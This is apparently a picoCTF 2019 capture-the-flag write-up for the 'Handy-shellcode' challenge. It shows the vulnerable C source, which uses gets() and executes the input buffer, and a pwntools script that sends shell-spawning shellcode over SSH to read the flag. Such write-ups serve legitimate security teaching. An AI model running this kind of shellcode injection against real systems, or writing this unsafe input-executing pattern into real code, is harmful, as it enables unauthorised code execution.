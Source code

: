 ### Handy-shellcode

Source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

We have to enter a shellcode and the binary will run it, so I'll create a shellcode with pwntools and send it:

```python
from pwn import *
from getpass import getpass

user = getpass("Username:")
passwd = getpass("Password:")
host = "2019shell1.picoctf.com"

s = ssh(user=user,password=passwd,host=host)
p = s.run("cd /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 && ./vuln")

payload = asm(shellcraft.linux.sh())

p.recvuntil("Enter your shellcode:")
p.sendline(payload)
p.sendline(b"cat flag.txt")
p.interactive()
```